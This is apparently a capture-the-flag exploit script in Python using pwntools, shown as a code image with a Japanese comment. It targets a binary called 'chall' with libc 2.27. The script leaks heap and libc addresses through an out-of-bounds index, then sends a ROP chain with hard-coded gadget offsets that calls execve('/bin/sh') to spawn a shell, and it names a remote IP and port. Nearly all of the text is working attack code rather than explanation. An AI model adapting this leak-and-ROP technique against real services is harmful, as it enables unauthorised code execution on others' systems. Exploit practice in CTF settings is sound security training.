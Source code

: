 ```python
if __name__ == '__main__':
    """
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    """

    target = "69.172.229.147"
    port = 9001
    # s = remote(target, port)
    s = process("./chall")
    libc = ELF("./libc-2.27.so")
    system_libc = libc.symbols["system"]
    execve_libc = libc.symbols["execve"]
    binsh_libc = next(libc.search(b"/bin/sh\x00"))
    
    n = 65535
    s.recvuntil(b": ")
    s.sendline(str(n).encode())

    idxs = {
        "heap": 4,
        "stack": 13,
        "libc": 28,
        "old_rbp": 6
    }

    offset = {
        "heap": 0,
        "stack": 0,
        "libc": 0x199e10
    }

    rpg = {
        "ret": 0x21560,
        "poprdxrsi": 0x1306d9,
        "poprdi": 0x2155f
    }

    heap_idx = 4
    stack_idx = 13
    libc_idx = 28

    new(s, 0, 0x20)

    heap_addr = u64(show(s, idxs["heap"]).ljust(8, b"\x00")) - offset["heap"]
    libc_addr = u64(show(s, idxs["libc"]).ljust(8, b"\x00")) - offset["libc"]

    print(hex(heap_addr))
    print(hex(libc_addr))

    # 何故かsystem("/bin/sh")はret gadget入れても発火しなかった
    rop_payload = b"junkjunk"
    rop_payload += p64(libc_addr + rpg["poprdxrsi"])
    rop_payload += p64(0)
    rop_payload += p64(0)
    rop_payload += p64(libc_addr + rpg["poprdi"])
    rop_payload += p64(libc_addr + binsh_libc)
    rop_payload += p64(libc_addr + execve_libc)

    new(s, 6, 0x40, rop_payload)
```